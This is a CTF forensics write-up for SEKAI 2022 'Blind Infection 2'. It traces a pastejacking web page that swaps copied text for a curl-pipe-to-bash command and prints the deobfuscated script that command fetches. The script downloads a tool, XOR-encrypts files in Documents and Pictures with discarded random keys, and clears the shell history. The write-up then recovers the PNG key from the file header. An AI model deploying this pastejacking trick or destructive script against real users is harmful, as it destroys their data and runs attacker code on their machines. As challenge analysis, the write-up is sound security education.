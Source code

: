```yaml
---
layout: post
title: "SEKAI 2022 - Blind Infection 2"
mathjax: true

date: 2022-10-01
---
```


*A ransomware encrypted PNG files, we retrieve the initial infection program, and use a xor attack to recover the flag.

<!--more-->

### Description

*Consider using a fresh virtual machine for this challenge, as you may risk losing your data. We are not responsible for any damages caused.*

Investigator: Good news - we’ve successfully managed to restore your documents! However, to continue with the rest of the files, we'll probably need to know: what were you doing when this initially happened?

Customer: ...

Attachment md5sum: 60937547d80207b1b4f2d4174a8d719a

Author: BattleMonger

### Details

Points:      488

Category:    forensic

Validations: 15

First blood: Yes

### Solution

We were given a file called [chall.zip](/resources/2022/sekai/blind_infection_1/chall.zip).
After digging around the file and folder it stand out that the juicy stuf  resides inside the `/home/sekaictf/Pcitures` folder where 4 interesting PNG files are encrypted.

Inside the description, the investigator ask for an open question about when it happend.
Using the `tree -a` command, a folder called `snap/firefox` has been found inside the home user folder.
Inside this directory the profile of the customer can be found `common/.mozilla/firefox/p3zapakd.default`. To analyze quickly the firefox profile, the [firefed](https://github.com/numirias/firefed) tool has been used.

Using the `history` command again, we saw that the customer has made some research on how to decrypt file, is antivirus needed etc. So we can be sure that the infection occurs before those search.


```bash
> $ firefed -f -p home/sekaictf/snap/firefox/common/.mozilla/firefox/p3zapakd.default/ history
https://sekaictf-tunes.netlify.app/
    Title:      None
    Last visit: 2022-07-26 14:23:53
    Visits:     1
...
```
an url containing sekaict stoud out. Using curl to get what is inside the link lead to the discover of an interesting attack vector, using `clipboardData` function as shown below:

```html
<html><head><meta http-equiv="Content-Type" content="text/html; charset=UTF-8"></head><body>
		<!-- Source - https://security.love/Pastejacking/ -->
        Download exclusive Sekai Music!!!
        <br>

        <p>wget sekairhythms.com/epicmusic.zip</p>
        <script>
            document.addEventListener('copy', function(e){
                console.log(e);
                e.clipboardData.setData('text/plain', 'curl https://storage.googleapis.com/sekaictf/Forensics/muhahaha.sh | bash');
                e.preventDefault();
            });
        </script>
    


</body></html>
```

The malicious command download and run a bash script called [muhahaha.sh](/resources/2022/sekai/blind_infection_2/muhahaha.sh)

The shell script is obfuscated, to be able to decode it, we replaced the `eval` function with `echo` and the script became much more readable:

```bash
echo '---------------------------------------------------------'
echo 'All your files are gone, permanently!!!'
echo 'Bring them back, We dare you!!!'
echo '---------------------------------------------------------'
wget -q https://raw.githubusercontent.com/scangeo/xor-files/master/binaries/x86_64/xor-files
for file in ~/Documents/* ~/Pictures/*
do
openssl rand 16 > key.txt
xor-files -r $file $file key.txt
rm key.txt
done
rm xor-files
echo '' > ~/.bash_history
```
Basically what it does is that for each file in Documents and Pictures folder, it generate a random key of 16 bytes and xor the file with it, then it remove the temporary key.

As we know that PNG has a fixed header of always the same 16 bytes, it is trivial do decrypt the PNG's files with a bunch of python and the xor-files tool.

First get the xor key:

```python
import sys
key = bytes.fromhex("89 50 4E 47 0D 0A 1A 0A 00 00 00 0D 49 48 44 52".replace(" ",""))

with open(sys.argv[1],"rb") as src:
    buf = src.read(16)

good_key = bytearray()
for i,j in enumerate(buf):
    good_key.append((j ^ key[i]))

print(f"{good_key}")
print(len(good_key))

with open("key.good","wb") as dst:
    dst.write(good_key)
```

Then use this key to decrypt our file:

```bash
./xor-files -r flag.png flag.png key.good
```

The PNG is a big list of country flags, as we are on a forensic task, let's run `strings` on it just in case:

```bash
$ strings flag_back.png
...
F R3
f$]JSL
84#y
nl6F
IEND
SEKAI{D4R3_4CC3PT38_4N8_4U5T38}
```

Our flag is there: SEKAI{D4R3_4CC3PT38_4N8_4U5T38}

Challenges resources are available in the [resources folder](https://github.com/duksctf/duksctf.github.io/tree/master/resources/2022/sekai/blind_infection_2)

